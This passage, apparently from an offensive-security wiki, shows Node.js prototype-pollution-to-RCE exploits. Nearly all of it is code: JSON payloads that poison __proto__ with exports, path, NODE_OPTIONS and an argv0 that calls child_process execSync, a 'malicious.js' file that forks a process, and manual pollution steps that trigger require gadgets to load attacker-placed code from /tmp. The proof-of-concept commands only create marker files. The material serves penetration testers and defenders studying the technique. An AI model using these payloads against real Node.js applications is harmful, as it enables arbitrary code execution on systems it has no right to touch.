 ```javascript
  '{"__proto__": {"exports": {".": "./malicious.js"}, "1": "/tmp", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce_exports_1\\").toString())//"}}'
);

clone(USERINPUT);

var proc = require("./relative_path.js");
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```

{{#endtab}}

{{#tab name="malicious.js"}}

```javascript
const { fork } = require("child_process");
console.log("Hellooo from malicious");
fork("/path/to/anything");
```

{{#endtab}}
{{#endtabs}}

#### Relative require - 2

{{#tabs}}
{{#tab name="exploit"}}

```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Manual Pollution
b = {};
b.__proto__.data = {};
b.__proto__.data.exports = { ".": "./malicious.js" };
b.__proto__.path = "/tmp";
b.__proto__.name = "./relative_path.js"; //This needs to be the relative path that will be imported in the require

// Trigger gadget
var proc = require("./relative_path.js");
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist

// Abusing the vulnerable code
USERINPUT = JSON.parse(
  '{"__proto__": {"data": {"exports": {".": "./malicious.js"}}, "path": "/tmp", "name": "./relative_path.js", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce_exports_path\\").toString())//"}}'
);

clone(USERINPUT);

var proc = require("./relative_path.js");
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```
